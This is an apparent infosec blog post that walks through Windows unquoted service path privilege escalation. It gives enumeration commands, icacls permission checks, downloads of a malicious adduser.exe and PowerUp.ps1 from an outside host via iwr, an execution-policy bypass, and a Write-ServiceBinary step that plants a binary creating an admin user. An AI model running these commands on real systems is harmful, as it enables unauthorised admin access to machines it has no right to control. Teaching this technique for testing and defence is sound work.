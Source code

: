 ```yaml
---
layout: post
title: Windows Unquoted Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell", "dll", "powerup"]
---
```


#### unquoted binary path abuse

when windows encounters an unquoted path to a binary application it follows a specific order of execution

- C:\Program.exe
- C:\Program Files\My.exe
- C:\Program Files\My Program\My.exe
- C:\Program Files\My Program\My service\service.exe

looking at the example above, for the binary service.exe it trys to execute the first word encountered by appending .exe to it assuming that we meant to call that the executable

for the first few directories we encounter that are Windows managed by default usually locked down pretty tight with permissions we can not do much (i.e Program.exe will likely not be a viable exploit option for us), however, as we continue down the path to directories and software that the user has created we will have more options. In the case above the My Service directory can be exploited by adding the My binary to the My Program files

if we want to enumerate running and stopped processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName

now we can enter a command to get us all binaries with their respective paths that are located outside the Windows directory

### C:> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

as always when working with services, to determine if our current user has the permissions required to execute the service, we begin by trying to start the service

    PS > Start-Service myservice
    PS > Stop-Service myservice

now we can uses icalcs to check the permissions of the service binary directories

    PS > icacls "C:\Program Files\Enterprise Apps" (...\Current Version\nyservice.exe)

in this example we have write permissions available to the current user for the Enterprise Apps directory

so we can copy our malicious executable over - and lable it Current.exe as the next path it is looking for is Curent Version

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile Current.exe
    PS > copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'

now start the service to execute our code

    PS > Start-Service myservice

we may get a powershell error , but that does not necessarily mean our code did not execute before the script errored out

#### PowerUp automation

we can achieve similar results with the PowerUp powershell script

    PS > iwr http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

we copy the script over and allow the execution bypass

    PS > powershell -ep bypass

start the script

    PS > . .\PowerUp.ps1

execute the unquoted service option

    PS > Get-UnquotedService

and then check if we have the abuse function and point it to the path binary we are creating, by default this creates the john admin user, however we can modify to change the password of a current admin acount if we wish or any other sys level command

    PS > Write-ServiceBinary -Name 'myservice' -Path "C:\Program Files\Enterprise Apps\Current.exe"

to execute our code we need to restart the service

    PS > Restart-Service myservice

and again even if the script errors we may have achieved our code execution